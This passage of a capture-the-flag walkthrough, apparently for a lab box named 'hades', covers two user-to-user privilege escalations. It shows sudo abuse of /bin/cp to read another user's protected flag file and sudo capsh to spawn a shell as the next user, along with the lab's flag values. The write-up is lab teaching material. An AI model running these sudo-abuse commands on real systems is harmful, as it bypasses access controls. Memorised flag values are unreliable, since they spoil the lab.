 ```plaintext title="ls -lah"
drwxr-x--- 2 root    ariadne 4.0K Jul 26  2023 .
drwxr-xr-x 1 root    root    4.0K Jul 26  2023 ..
-rw-r--r-- 1 ariadne ariadne  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 ariadne ariadne 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 ariadne ariadne  807 Apr 23  2023 .profile
-rw-r----- 1 root    ariadne   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root    ariadne  165 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
ariadne@hades:~$ sudo -u arete /bin/cp /pwned/arete/flagz.txt /dev/stdout                
^qmrrbGUXLTqLFDyCDlx^
```

## User - arete

### flag - 08

```plaintext
^qmrrbGUXLTqLFDyCDlx^
```

### 任务目标

```plaintext title="mission.txt"
The user artemis allows us to use some binary on her behalf. Its a gift... 
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root  arete 4.0K Jul 26  2023 .
drwxr-xr-x 1 root  root  4.0K Jul 26  2023 ..
-rw-r--r-- 1 arete arete  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 arete arete 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 arete arete  807 Apr 23  2023 .profile
-rw-r----- 1 root  arete   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root  arete  227 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
arete@hades:~$ sudo -u artemis /sbin/capsh --
artemis@hades:/pwned/arete$ cd
artemis@hades:~$ cat flagz.txt 
^SegGdzPgnNdGAmKjnsa^
```

## User - artemis

### flag - 09

```plaintext
^SegGdzPgnNdGAmKjnsa^
```

